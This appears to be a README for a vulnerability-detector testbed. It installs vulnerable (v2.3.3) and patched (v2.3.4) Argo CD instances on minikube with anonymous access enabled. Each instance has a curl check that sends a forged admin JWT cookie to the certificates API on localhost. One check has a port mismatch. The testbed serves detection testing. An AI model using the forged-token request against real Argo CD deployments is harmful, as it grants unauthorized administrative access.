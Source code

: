 # setup requirements
1. k8s with minikube: https://minikube.sigs.k8s.io/docs/start/ (we can use original k8s but this is a easy solution)
2. please don't forget to add `alias kubectl="minikube kubectl --"` to your shell environment.

# setup vulnerable instance (v2.3.3)

```bash
kubectl create namespace argocd
kubectl apply -n argocd -f https://raw.githubusercontent.com/argoproj/argo-cd/v2.3.3/manifests/install.yaml
kubectl edit -n argocd cm argocd-cm -o yaml
```

append the following:
```yaml
data:
  users.anonymous.enabled: "true"
```

check anonymous access is enabled:
`kubectl get -n argocd cm argocd-cm -o jsonpath='{.data.users\.anonymous\.enabled}'`

give access to the server from 127.0.0.1:8082 for testing the plugin:
`kubectl port-forward svc/argocd-server -n argocd 8082:443`

check it manually in another shell:
```bash
curl -i -s -k -X $'GET'  -H $'Host: 127.0.0.1:8082'   -b $'argocd.token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiJhZG1pbiJ9.TGGTTHuuGpEU8WgobXxkrBtW3NiR3dgw5LR-1DEW3BQ'  $'https://127.0.0.1:8081/api/v1/certificates'
```

# setup safe instance (v2.3.4)

```bash
kubectl create namespace argocdsafe
kubectl apply -n argocdsafe -f https://raw.githubusercontent.com/argoproj/argo-cd/v2.3.4/manifests/install.yaml
kubectl edit -n argocdsafe cm argocd-cm -o yaml
```

append the following:
```yaml
data:
  users.anonymous.enabled: "true"
```

check anonymous access is enabled:
`kubectl get -n argocdsafe cm argocd-cm -o jsonpath='{.data.users\.anonymous\.enabled}'`

give access to the server from 127.0.0.1:8081 for testing the plugin:
`kubectl port-forward svc/argocd-server -n argocdsafe 8081:443`

check it manually in another shell:
```bash
curl -i -s -k -X $'GET'  -H $'Host: 127.0.0.1:8081'   -b $'argocd.token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiJhZG1pbiJ9.TGGTTHuuGpEU8WgobXxkrBtW3NiR3dgw5LR-1DEW3BQ'  $'https://127.0.0.1:8081/api/v1/certificates'
```
